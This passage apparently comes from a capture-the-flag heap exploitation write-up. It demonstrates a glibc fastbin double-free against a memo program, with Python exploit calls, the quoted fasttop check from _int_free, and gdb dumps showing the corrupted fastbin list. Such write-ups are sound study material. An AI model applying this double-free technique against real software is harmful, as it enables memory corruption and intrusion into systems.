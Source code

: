 Cute, we managed to **free** `memo_0`'s (`0x00005555557572d0`) name pointer (`0x0000555555757010`) without going through the 
`delete` function. What gives? By calling `delete` on a different memo and then on `memo_0`, we can create a double-free scenario!
Let me show you what I mean.

```python
free(1)
```

```
gdb-peda$ x/6gx 0x555555756060
0x555555756060:	0x00005555557572d0	0x0000000000000000
0x555555756070:	0x00005555557570e0	0x0000555555757170
0x555555756080:	0x0000555555757220	0x0000000000000000

(0x20)     fastbin[0]: 0x555555757020 --> 0x555555757000 --> 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0

gdb-peda$ x/4gx 0x0000555555757030 - 0x10
0x555555757020:	0x0000000000000020	0x0000000000000021 <-- memo_1
0x555555757030:	0x0000555555757000	0x0000000100000080
                         ^
                         |                         
        memo_1->name - - +
```

As you can see, `memo_1`'s entry in the array got zero'd out and its name pointer along with itself have been free'd. In case 
you're wondering why I didn't free `memo_0` from the beginning and decided to free `memo_1` first instead, is because of this:

```c
if (__builtin_expect (old == p, 0))
	 malloc_printerr ("double free or corruption (fasttop)");
```

This is part of `_int_free` which checks if the chunk that is about to be free'd is already at the top/head of its corresponding
fastbin list. If it is, bad news for us. Double-free time.

```python
free(0)
```

```
(0x20)     fastbin[0]: 0x5555557572c0 --> 0x555555757000 --> 0x555555757020 --> 0x555555757000
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0

gdb-peda$ x/6gx 0x555555756060
0x555555756060:	0x0000000000000000	0x0000000000000000
0x555555756070:	0x00005555557570e0	0x0000555555757170
0x555555756080:	0x0000555555757220	0x0000000000000000
```
